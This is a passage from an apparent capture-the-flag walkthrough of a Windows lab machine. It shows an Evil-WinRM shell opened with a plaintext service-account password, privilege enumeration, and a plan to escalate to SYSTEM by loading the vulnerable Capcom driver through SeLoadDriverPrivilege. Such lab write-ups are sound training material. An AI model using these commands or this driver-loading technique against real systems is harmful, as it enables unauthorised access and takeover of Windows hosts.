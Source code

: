 [Evil-WinRM](https://github.com/Hackplayers/evil-winrm) will provide a shell:

```

root@kali# evil-winrm -i 10.10.10.193 -u svc-print -p '$fab@s3Rv1ce$1'

Evil-WinRM shell v2.3

Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\svc-print\Documents>

```

And `user.txt`:

```
*Evil-WinRM* PS C:\Users\svc-print\desktop> cat user.txt
f399776d************************

```

## Priv: svc-print –> SYSTEM

### Enumeration

When I look at svc-print’s privileges, there’s an interesting one, `SeLoadDriverPrivilege`:

```
*Evil-WinRM* PS C:\programdata> whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                    State
============================= ============================== =======
SeMachineAccountPrivilege     Add workstations to domain     Enabled
SeLoadDriverPrivilege         Load and unload device drivers Enabled
SeShutdownPrivilege           Shut down the system           Enabled
SeChangeNotifyPrivilege       Bypass traverse checking       Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set Enabled

```

### Strategy

Googling about `SeLoadDriverPrivilege` leads to [this post](https://www.tarlogic.com/en/blog/abusing-seloaddriverprivilege-for-privilege-escalation/) from TarLogic. If I can load a driver, I can load a vulnerable driver, and then exploit it. They use the vulnerable Capcom driver as an example. I’ll grab a copy of this vulnerable driver [here](https://github.com/FuzzySecurity/Capcom-Rootkit/blob/master/Driver/Capcom.sys).

I’ll need to compile a couple `.exe` files to pull off this attack. I’ll do that in a Windows VM. I made some attempts to compile one of them in Kali using `mingw-64`, but it led to errors. It’s typically better to compile Windows executables in Windows where possible.
